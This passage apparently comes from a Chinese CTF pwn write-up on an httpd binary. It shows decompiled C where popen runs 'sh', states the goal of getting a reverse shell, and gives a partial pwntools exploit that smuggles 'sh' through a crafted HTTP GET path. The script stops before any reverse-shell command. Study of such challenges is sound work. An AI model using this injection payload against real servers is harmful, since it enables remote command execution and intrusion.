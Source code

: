 然后看看有没有目录穿越，发现是做不到的，注意到这里有一段代码,最关键的就是这个popen函数

popen 函数用于创建一个管道，通过该管道可以让一个进程执行 shell 命令并与该命令进行输入或输出通信。

```c
/*
FILE *freopen(const char *filename, const char *mode, FILE *stream);
freopen 函数用于重定向一个已经打开的文件流。它可以将一个文件流（例如 stdin、stdout 或 stderr）重定向到一个指定的文件。

int dup(int oldfd);
返回值: 成功时，返回新的文件描述符（一个非负整数）；失败时，返回 -1，并设置 errno 以指示错误。

int dup2(int oldfd, int newfd);
dup2 函数的具体作用是将一个现有的文件描述符(newfd)复制到另一个指定的文件描述符(oldfd)上。这个操作使得两个文件描述符指向同一个文件或资源，拥有相同的文件偏移量和访问模式。
*/
  v3 = fileno(stdout);
  new_stdout = dup(v3);
  v4 = fileno(stderr);
  new_stderr = dup(v4);
  freopen("/dev/null", "w", stdout);
  freopen("/dev/null", "w", stderr);
  stream = popen("sh >/dev/null", modes);
  if ( stream )
  {
    pclose(stream);
    v6 = fileno(stdout);
    dup2(new_stdout, v6);
    v7 = fileno(stderr);
    dup2(new_stderr, v7);
    close(new_stdout);
    close(new_stderr);
/* 
 ...
*/

}
```

- 由此思路就明确了，直接用这个popen函数执行sh，然后反弹shell即可
- exp

```python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/httpd")
# p=remote('139.155.126.78',31700)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
elf = ELF("/home/zp9080/PWN/httpd")
libc=elf.libc
def dbg():
    gdb.attach(p,"b *$rebase(0x1BEE)")  
    pause()

host = '0.0.0.10'
request = 'GET /"s"h HTTP/1.0\r\n'
request += 'Host: ' + host + '\r\n'
request += 'Content-Length: 0\r\n'

```